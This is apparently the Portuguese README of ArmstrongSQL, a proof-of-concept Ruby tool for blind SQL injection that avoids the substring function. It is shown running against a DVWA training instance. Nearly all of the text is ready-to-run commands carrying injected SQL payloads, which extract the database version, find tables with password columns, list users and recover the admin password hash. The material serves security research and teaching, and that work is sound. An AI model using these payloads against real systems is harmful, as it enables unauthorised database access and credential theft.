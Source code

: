 # ArmstrongSQL

O ArmstrongSQL é uma ferramenta que implementa uma prova de conceito de como explorar blind SQL injection sem a utilização da função substring. Detalhes em https://medium.com/sidechannel-br/sql-injection-tinha-uma-v%C3%ADrgula-no-meio-do-caminho-60509f6cd74 

Os exemplos citados neste README consideram o exemplo de utilização do ArmstrongSQL contra uma instância do DVWA.

## Versão do banco
./ArmStrongSQL.rb -m "Surname" -s "' and (select @@version) like '%'#"  -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -w

## Tabelas com coluna password
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE column_name = 'password' and table_name like '%') > 0#" -r

## Tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM information_schema.columns WHERE table_name like 'USERS%' and column_name like '%') > 0#" -r

## Usuários da tabela USERS
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r

## Hash do usuário Admin
 ./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER = 'ADMIN' and password like '%') > 0#"  -d hex

## Salvando a saída para um arquivo
./ArmStrongSQL.rb -m "Surname" -d all -u "http://dvwa.tempest/vulnerabilities/sqli_blind/?id=1[BLIND]&Submit=Submit" --cookie 'PHPSESSID=PLACE-SESSION-VALUE-HERE; security=low' -s "' and (SELECT count(*) FROM users WHERE USER like '%') > 0#" -r -o USERS.txt
